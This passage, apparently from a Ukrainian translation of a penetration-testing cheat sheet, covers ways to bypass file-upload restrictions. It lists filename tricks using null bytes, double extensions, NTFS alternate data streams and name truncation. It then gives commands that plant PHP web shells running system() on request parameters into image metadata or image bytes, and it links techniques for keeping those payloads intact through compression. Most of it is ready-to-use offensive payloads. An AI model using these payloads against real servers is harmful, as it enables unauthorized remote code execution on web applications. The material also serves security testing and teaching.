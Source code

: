 * _file.php#.png_
* _file.php%00.png_
* _file.php\x00.png_
* _file.php%0a.png_
* _file.php%0d%0a.png_
* _file.phpJunk123png_
5. Додайте **ще один шар розширень** до попередньої перевірки:
* _file.png.jpg.php_
* _file.php%00.png%00.jpg_
6. Спробуйте поставити **виконуване розширення перед дійсним розширенням** і сподівайтеся, що сервер неправильно налаштований. (корисно для експлуатації неправильних налаштувань Apache, де все з розширенням **_**.php**_**, але** не обов'язково закінчується на .php** виконає код):
* _ex: file.php.png_
7. Використання **альтернативного потоку даних NTFS (ADS)** в **Windows**. У цьому випадку символ двокрапки “:” буде вставлений після забороненого розширення і перед дозволеним. В результаті на сервері буде створено **порожній файл з забороненим розширенням** (наприклад, “file.asax:.jpg”). Цей файл може бути відредагований пізніше за допомогою інших технік, таких як використання його короткого імені. Шаблон “**::$data**” також може бути використаний для створення непорожніх файлів. Тому додавання символу крапки після цього шаблону також може бути корисним для обходу подальших обмежень (наприклад, “file.asp::$data.”)
8. Спробуйте порушити обмеження імені файлу. Дійсне розширення обрізається. А шкідливий PHP залишається. AAA<--SNIP-->AAA.php

```
# Максимум 255 байт для Linux
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # мінус 4 тут і додавання .png
# Завантажте файл і перевірте відповідь, скільки символів він дозволяє. Скажімо, 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Створіть корисне навантаження
AAA<--SNIP 232 A-->AAA.php.png
```

### Обхід перевірок Content-Type, Magic Number, Compression & Resizing

* Обійдіть перевірки **Content-Type**, встановивши **значення** заголовка **Content-Type** на: _image/png_, _text/plain_, application/octet-stream_
1. Словник **Content-Type**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/Web/content-type.txt)
* Обійдіть перевірку **magic number**, додавши на початку файлу **байти реального зображення** (заплутайте команду _file_). Або введіть оболонку всередину **метаданих**:\
`exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg`\
`\` або ви також можете **ввести корисне навантаження безпосередньо** в зображення:\
`echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
* Якщо **сжаття додається до вашого зображення**, наприклад, використовуючи деякі стандартні бібліотеки PHP, такі як [PHP-GD](https://www.php.net/manual/fr/book.image.php), попередні техніки не будуть корисні. Однак ви можете використовувати **техніку PLTE chunk** [**визначену тут**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) для вставки деякого тексту, який **переживе стиснення**.
* [**Github з кодом**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen\_plte\_png.php)
* Веб-сторінка також може **змінювати розмір** **зображення**, використовуючи, наприклад, функції PHP-GD `imagecopyresized` або `imagecopyresampled`. Однак ви можете використовувати **техніку IDAT chunk** [**визначену тут**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) для вставки деякого тексту, який **переживе стиснення**.